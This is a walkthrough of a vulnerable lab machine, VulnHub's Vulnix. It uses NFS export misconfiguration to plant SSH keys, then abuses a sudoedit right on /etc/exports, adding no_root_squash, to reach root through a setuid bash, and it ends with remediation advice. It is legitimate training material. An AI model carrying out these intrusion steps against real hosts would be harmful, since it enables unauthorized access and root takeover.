


# HackLAB: Vulnix

Difficulty:: #Easy
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [HackLAB: Vulnix](https://www.vulnhub.com/entry/hacklab-vulnix,48/)
- CVSS3 : [AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H/E:F/RL:O/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Here we have a vulnerable Linux host with configuration weaknesses rather than purposely vulnerable software versions (well at the time of release anyway!)
The host is based upon Ubuntu Server 12.04 and is fully patched as of early September 2012. The details are as follows:
  Architecture: x86
  Format: VMware (vmx & vmdk) compatibility with version 4 onwards
  RAM: 512MB
  Network: NAT
  Extracted size: 820MB
  Compressed (download size): 194MB – 7zip format – 7zip can be obtained from here
  MD5 Hash of Vulnix.7z: 0bf19d11836f72d22f30bf52cd585757
The goal; boot up, find the IP, hack away and obtain the trophy hidden away in /root by any means you wish – excluding the actual hacking of the vmdk*


## Summary
HackLAB: Vulnix starts with 18 open ports, and with `RPCBind` + `NFS` service, then I identify with  `showmount` the path `/home/vulnix *`  available, and because of I do not know the `uid` of the `vulnix` user, when I `mount` it I have the issue:  [NFS4 mount shows all ownership as "nobody" or 4294967294](https://www.diewufeiyang.com/post/921.html), but after reading teh `Pentesting NFS Service`  recomendation of use the `-o vers=2` , then it works and give me the `uid` `2008`, then I create the user `vulnix` in my local machine with that `id`, and I can access to the `/home/vulnix/`  directory, I also can upload files, then I create the `ssh` keys and create the `~/.ssh/authorized_keys` file with the public key, and to be able to perform the `ssh` only when I am inside the mounted directory, with the `vulnux` shell I identify the `sudo` privileges to run `sudoedit /etc/exports` , there I can define which paths will be exported by the `NFS` service, and I write the `/root` home directory, but this attack requires that the server will be restarted because the `vulnux` user does not have allowed to restart the service, that means I required user interaction, when shutdown and start again the target machine I successfull can mount the `root` home directory and perform the same `ssh` keys creation, and get the `root` flag.

>**Note**: I also could escalate privileges with the  [`NFS no root squash misconfiguration PE`](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe), and because of this machine is from 2012, probably it has more vulnerabilities to exploit.

1. CWE-200: Exposure of Sensitive Information to an Unauthorized Actor
2. CWE-284: Improper Access Control
3. CWE-732: Incorrect Permission Assignment for Critical Resource
4. CWE-269: Improper Privilege Management

#VMWare #Nmap #rpcbind #NFS #mount #setuid #Postfix #POP #nano #OpenSSH

## Enumeration
When I run the target machine in VMware Workstation 17 Player (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.56.0/24
```
Then I compare the MAC with that of the target VMware configuration, and I find out that the IP is `192.168.56.118`.


And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.56.118
```
Then I get the output:


And I identify 18 open ports, the `OpenSSH 5.9p1` service runs on `22` TCP, and the `Postfix smtpd` service runs on `25` TCP, and the `Linux fingerd` service runs on `79` TCP, and the `Dovecot pop3d` service runs on `110` TCP, and the `rpcbind` service runs on `111` TCP, and the `Dovecot imapd` service runs on `143` TCP, and the `netkit-rsh rexecd` service runs on `512` TCP, and the `rlogin` service runs on `513` TCP, and the `Netkit rshd` service runs on `514` TCP, and the `ssl/imaps?` service runs on `993` TCP, and the `ssl/pop3s?` service runs on `995` TCP, and `2049`, `34504`, `39964`, `42459`, `49396`, and `49607` belongs to RPC services, and an unknown service runs on `22655` TCP, and it runs on `Debian`. When I run the general `nmap` scripts, then I can see:


## Normal use case
Given there are multiple ports available, but there is no `HTTP` service available, then the normal use case will be. When a user has credentials or knowledge of the server.

## Dynamic detection
Misconfiguration in RPCBind + NFS service allows loading SSH keys.

Given I can access several ports, then I start to enumerate them one by one. Given I can access `22` TCP
And I google `OpenSSH 5.9p1 exploit`, then I can see [Vulnerabilities in OpenSSH 5.9p1](https://www.cybersecurity-help.cz/vdb/openssh/openssh/5.9p1/):


And maybe the information disclosure vulnerability could be useful, and I could enumerate the users of the server.

Given I can access `25` TCP, then the `Postfix` services allow me to send emails, and I can also enumerate users with the `VRFY` command.

Given I can access `79` TCP, and I look for [TCP port `79` in hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-finger):



And first, I want to test it manually, when I use the `nc` command:
```shell
$ nc -nv 192.168.56.118 79
```
And I send the string `root`, then I get the output:
```shell
Login: root          Name: root
Directory: /root     Shell: /bin/bash
Never logged in.
No mail.
No Plan.
```
And with that, I could also enumerate users, and in the hacktricks post, I see a tool to enumerate users. When I download the script:
```shell
$ wget "https://pentestmonkey.net/tools/finger-user-enum/
> finger-user-enum-1.0.tar.gz"
```
And I extract it:
```shell
$ tar xvzf finger-user-enum-1.0.tar.gz
```
And I test the script with the `root` user:
```shell
$ ./finger-user-enum.pl -u root -t 192.168.56.118
```
Then I get the same output as when I used the `nc` command.

When I reuse the script with a list of SecLists:
```shell
$ ./finger-user-enum.pl -U top-usernames-shortlist.txt -t 192.168.56.118
```
Then I can see:


Given I can access `110` TCP, And I look for port[ `110` TCP in hacktricks,](https://book.hacktricks.xyz/network-services-pentesting/pentesting-pop) then I can see that it relates to TCP port `995`, and it handles email from a remote mail server.

Given I can access `111` TCP, and I look for TCP port [`111` in hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rpcbind), then I find:


And I remember that the `nmap` scripts detect `NFS` service, when I read about the `showmount` command:


And I use it:
```shell
$ showmount -e 192.168.56.118
Export list for 192.168.56.118:
/home/vulnix *
```
Then I see that the server allows me to mount a directory, and it is the directory `/home/vulnix`, and with that, I know that the `vulnix` user exists. When I try to mount it, and I use the `mount` command:
```shell
$ sudo mkdir /mnt/vulnix && \
> sudo mount -t nfs 192.168.56.118:/home/vulnix /mnt/vulnix -o nolock
```
And I check the directory:
```shell
$ ls -ld /mnt/vulnix
```
Then I get the output:
```
drwxr-x--- 2 nobody 4294967294 4.0K Sep  2  2012 /mnt/vulnix
```
And I remember that I already had this problem before.

>**Note**: In the [Undiscovered 1.0.1](../04-undiscovered-101/README.md) I also has this problem:  [NFS4 mount shows all ownership as "nobody" or 4294967294](https://www.diewufeiyang.com/post/921.html)

And I need to create the user `vulnix`, but I do not know what `uid` the `vulnix` user has, and I could do it by brute force, but first, I will continue enumerating ports.

Given I can access `512` TCP, and I look for the [TCP port `512` in hacktricks'](https://book.hacktricks.xyz/network-services-pentesting/512-pentesting-rexec), then I see that it allows me to run commands remotely:


But only if I have valid credentials, when I use the `nc` command:
```shell
$ nc -nv 192.168.56.118 512
(UNKNOWN) [192.168.56.118] 512 (exec) open
Where are you?
```
Then  the connection is closed immediately, and from the message, maybe I can not connect it from my host.

Given I can access `513` TCP, and I look for the [TCP port `513` in hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rlogin):


And it is a service that was replaced by `SSH`, and it allows remote connection. When I use the `rlogin` command:
```shell
$ rlogin 192.168.56.118 -l vulnix
```
Then it asks me for a password, and I test it on all the users I know so far, but they all require passwords, and it does not seem to work.

Given I can access `514` TCP, and I look for the [TCP port `514` in hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rsh), then I see I could use the `rsh` command:


When I test it:
```shell
$ rsh 192.168.56.118 -l vulnix id
```
Then it does not work, and as I did before, I test it with all users, but it always asks me for a password.

Given the rest of the ports depend on the services I have already checked, then I will start trying to `mount` the `/home/vulnix/` directory. When I create the user `vulnix`:
```shell
$ sudo useradd vulnix -s /bin/bash
```
And I check if I can access `/mnt/vulnix`, then it does not work. When I change the `uid` and `gid` to `1001`:
```shell
$ sudo usermod -u 1001 -g 1001 vulnix
```
And I try with more `uid` values, then it does not work, and this method does not seem to be practical.
When I read the Hacktricks post about `Pentesting NFS Service` again, then I notice that it recommends using the `-o vers=2` options. When I `unmount` the directory:
```shell
$ sudo umount -f -l /mnt/vulnix
```
And I use the mount command with the `-o vers=2` options:
```shell
$ sudo mount -t nfs -o vers=2 192.168.56.118:/home/vulnix /mnt/vulnix \
> -o nolock
```
And I check the `/mnt` directory, then I see:
```shell
drwxr-x--- 2 2008 2008 4.0K Sep  2  2012 vulnix
```
And I can see that the `uid` and `gid` is `2008`. When I remove the `vulnix` user:
```shell
$ sudo userdel vulnix
```
And I create it again with the `uid` `2008`:
```shell
$ sudo useradd vulnix -u 2008 -s /bin/bash \
> -p (/usr/bin/openssl passwd vulnix)
```
And I use the `su` command:
```shell
$ sudo su vulnix
```
And I try to check the `/mnt/vulnix` directory again, then it works:


## Exploitation

And now, I am going to check if I can write to that directory, and if that works, I could generate and store the `SSH` keys, and I could access the server with the `SSH` service. When I generate the `ssh` keys:
```shell
$ vulnix@xxxx:/mnt/vulnix$ ssh-keygen -t rsa -b 2048 -f .ssh/id_rsa \
> -P "" -C "vulnix@vulnix"
```
And I copy the public key to the `authorized_keys` file:
```shell
$ vulnix@xxxx:/mnt/vulnix$ cp .ssh/id_rsa.pub .ssh/authorized_keys
```
And I give the proper permissions to the `.ssh` directory:
```shell
$ vulnix@xxxx:/mnt/vulnix$ chmod 700 .ssh
```
And I copy the private key to my `/tmp` directory:
```shell
$ vulnix@xxxx:/mnt/vulnix$ cp .ssh/id_rsa /tmp/id_rsa
```
And with my user, I copy the private key:
```shell
$ sudo cp /tmp/id_rsa .
```
And I change the owner:
```shell
$ sudo chown -R "xxxx" id_rsa
```
And I use the `ssh` command:
```shell
$ ssh -i id_rsa vulnix@vulnix
```
But it does not work, and after a while checking if everything is correct, then I start to think if I could access with port `513` TCP, when I google `configure rlogin in Linux`, then I find [how toconfigurersh and rlogin on centos rhel 7](https://www.thegeeksearch.com/how-to-configure-rsh-and-rlogin-on-centos-rhel-7/):


And that is an easier way to set up remote login, when I test it, and I create the `~/.rhosts` file
```shell
$ vulnix@xxxx:/mnt/vulnix$ echo '+ +' >> .rhosts
```
And I give it the proper permissions:
```shell
$ vulnix@xxxx:/mnt/vulnix$ chmod 644 .rhosts
```
And I use the `rlogin` command:
```shell
$ vulnix@xxxx:/mnt/vulnix$ rlogin vulnix -l vulnix
```
Then it keeps asking me for the password. and here I was stuck for a while, when I tried to connect with `SSH` with the user `vulnix`, and I use the `ssh` command:
```shell
$ vulnix@xxxx:/mnt/vulnix$ ssh -i .ssh/id_rsa vulnix@vulnix
```
Then it works:


And I realize that it only works when I am inside the mount directory, when I try to connect from another directory with the user `vulnix`, then the `SSH` connection does not work. and with the whole enumerating process, then I can conclude that there is a misconfiguration in `RPCBind` + `NFS`, and it allows me to get the `vulnix`'s shell.

## Privilege escalation

Sudo privileges allow you to modify the `NFS` service configuration files.

Given I can access the `RPCBind` service, and it also has the `NFS` service, and I find available to mount directory `/home/vulnix`, and it has been configured to allow reading and writing, and I was able to upload `SSH` keys to connect it to the `vulnix` server, Then I get the `vulnix`'s shell, and I start exploring the server.

When I use the `sudo` command:
```shell
$ vulnix@vulnix:/home$ sudo -l
...SNIPPED...
User vulnix may run the following commands on this host:
    (root) sudoedit /etc/exports, (root) NOPASSWD: sudoedit /etc/exports
```
When I read the `/etc/exports` file:
```shell
$ vulnix@vulnix:/home$ cat /etc/exports
# /etc/exports: the access control list for filesystems that may be
  exported
#   to NFS clients.  See exports(5).
...SNIPPED...
/home/vulnix  *(rw,root_squash)
```
Then I can configure the available directories in the `NFS` service. When I google `configure exports NFS file`, then I find [nfs serverconfig exports](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/5/html/deployment_guide/s1-nfs-server-config-exports):


And I identify that I can avoid the problem with the `uid` of the users, and I just have to specify the `no_root_squash` option, when I use the `sudoedit` command:
```shell
$ vulnix@vulnix:/home$ sudoedit /etc/exports
```
And it opens a `nano` interface, and I add the `user` and the `root` home directories, and I configure it with the `no_root_squash`:
```shell
/home/user  *(rw,no_root_squash)
/root *(rw,no_root_squash)
```
Then it looks like:


But I still need a way to restart the `NFS` service, and that way the changes take effect. When I google `take changes /etc/exports`, then I find [nfs server changes in etc exports file need service restart](https://unix.stackexchange.com/questions/116971/nfs-server-changes-in-etc-exports-file-need-service-restart):


And I will need to use the `exportfs` command, but I do not have permission to use it on the server. When I read the documentation:
```
Every file system being exported to remote users via NFS, as well as the
access level for those file systems, is listed in the /etc/exports file
When the nfs service starts, the /usr/sbin/exportfs command launches and
reads this file, passes control to rpc.mountd (if NFSv2 or NFSv3) for the
actual mounting process, then to rpc.nfsd where the file systems are then
available to remote users.
```
But I can not find any way for the user `vulnix` to be able to restart it, and here I was stuck, but the next day. When I turn the machine back on to test it, and I check the `showmount` command:
```shell
$ showmount -e vulnix
Export list for vulnix:
/root        *
/home/user   *
/home/vulnix *
```
Then I get it, it is because I turned the machine off and on, then the `exportfs` command was executed at startup, and it took the data from the file `/etc/exports`, and now, I can mount the `/root` and, `/home/user` directories, but that implies that I need user interaction to increase the privileges, and wait until the target owner restarts the server.

Given I have power cycled the target machine, and because of that, it took the changes I made to the `/etc/exports` file, then I can mount the `/root/` and `/home/user/` directories. When I use the `mount` command:
```shell
$ sudo mkdir /mnt/root/ && sudo mount -t nfs 192.168.56.118:/root \
> /mnt/root -o nolock
```
And I need to switch to my `root` user:
```
$ sudo su -
```
Then I can see the files inside `/mnt/root`, and I can get the root flag `trophy.txt`:


But I only read the target directory `/root`, and I am not the user `root` yet, but I have two options, and the first is to follow the same steps, and created the `ssh` keys to the `root` user. When I do it, then I get the `root` shell:




## Alternative Privilege escalation

But I could also escalate privileges in another way, and it is with what I find  [`Hacktricks - nfs no root squash misconfiguration PE`](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe):


When I use the `mount` command:
```shell
$ sudo mkdir /mnt/user/ && sudo mount -t nfs 192.168.56.118:/home/user \
> /mnt/user -o nolock
```
And I check the files:
```shell
$ ls -la /mnt/user
-rw-r--r-- 1 xxxx  docker  220 Sep  2  2012 .bash_logout
-rw-r--r-- 1 xxxx  docker 3.5K Sep  2  2012 .bashrc
drwx------ 2 xxxx  docker 4.0K Sep  2  2012 .cache
-rw-r--r-- 1 xxxx  docker  675 Sep  2  2012 .profile
-rw------- 1 xxxx  docker    7 Sep  2  2012 .rhosts
```
Then the file `/mnt/user/.rhosts` contains `+ user`, and I do not need to create a user called `user`, and that is because of the `no_root_squash` option. When I add the ssh keys to the user `user`, and I connect with the `ssh` command:
```shell
$ ssh -i .ssh/id_rsa user@vulnix
```
And I copy the target binary `/bin/bash` to the user's home directory:
```shell
$ user@vulnix:~$ cp /bin/bash .
```
And I go back to my attack machine, and I become root to change the owner of the binary `/mnt/usr/bash`
```shell
$ root@xxxx:/mnt/user# chown root ./bash
```
And I give it the `setuid` permissions:
```shell
$ root@xxxx:/mnt/user# chmod +s ./bash
```
And I go back to the `user` shell, and I run the `/home/user/bash` binary:
```shell
$ user@vulnix:~$ ./bash -p
```
And I get the `root` privileges:


And I get the `root` flag again, and I think there must be more ways to root the machine, and that is considering it was released in 2012, but for the time I have invested, then I decided to stop here.

## Remediation
Given I was able to mount a home directory with the `NFS` service, and it has readable and writable permissions, and that allows me to upload `SSH` credentials, and get the `user`'s shell, and the user has `sudo` privileges to modify the `NFS` configuration file, then they properly configure the `NFS` Service, and not allow unauthorized users can `mount` a critical directory, and they should check the `sudo` privileges of their users, then with that, it may not be possible to get the root's shell.